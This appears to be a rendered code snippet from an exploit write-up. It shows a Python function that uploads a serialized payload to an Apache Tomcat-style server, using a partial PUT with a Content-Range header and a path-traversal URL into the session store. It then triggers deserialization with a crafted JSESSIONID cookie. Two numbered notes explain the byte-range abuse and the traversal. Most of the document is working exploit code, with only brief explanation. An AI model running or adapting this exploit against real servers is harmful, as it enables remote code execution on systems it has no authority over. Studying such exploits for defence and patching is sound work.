 ```python
def upload_and_verify_payload(target_url, host, port, session_id, payload_file, verify_ssl=True):
    # Upload the payload to a traversal-style path and check if server later errors on load
    exploit_url = f"{target_url}/uploads/../sessions/{session_id}.session" # [1]
    try:
        with open(payload_file, "rb") as f:
            put_response = requests.put(
                exploit_url,
                headers={
                    "Host": f"{host}:{port}",
                    "Content-Length": "10000",
                    "Content-Range": "bytes 0-1000/1200" # [2]
                },
                data=f.read(),
                timeout=10,
                verify=verify_ssl
            )
        # Treats HTTP 409 as expected upload response and then triggers session load
        if put_response.status_code == 409:
            print(
                f"[+] Payload uploaded with status 409 (Conflict): {exploit_url}")
            get_response = requests.get(
                target_url,
                headers={"Cookie": "JSESSIONID=absholi7ly"},
                timeout=10,
                verify=verify_ssl
            )
            # Considers HTTP 500 on GET as evidence of deserialization/exec
            if get_response.status_code == 500:
                print(
                    f"[+] Exploit succeeded! Server returned 500 after deserialization.")
                return True
            else:
                print(
                    f"[-] Exploit failed. GET request returned HTTP {get_response.status_code}")
                return False
        else:
            print(
                f"[-] Payload upload failed: {exploit_url} (HTTP {put_response.status_code})")
            return False
    except requests.RequestException as e:
        print(f"[-] Error during upload/verification: {str(e)}")
        return False
    except FileNotFoundError:
        print(f"[-] Payload file not found: {payload_file}")
        return False
```

1. **Partial PUT / byte-range abuse:** issues PUT requests that include a Content-Range header (format: `bytes <start>-<end>/<total>`, e.g. `bytes 0-1000/1200`) while only sending a fragment of the declared total. This triggers Tomcat's partial-upload handling (the code path that treats the request as a partial append/patch instead of a full replace) and exercises the server logic for assembling partial content.
2. **Path targeting (traversal / path-equivalence):** uploads to a traversal-style URL (`/uploads/../sessions/<id>.session`) so the effective filesystem target is the session store. Relatedly, path-equivalence flaws occur when different request strings normalise or map to the same filename (e.g. server code that derived predictable temp filenames from request paths like `path.replace('/', '.')`). Both traversal and predictable filename derivation let attacker-controlled bytes be placed where session or other sensitive files live.
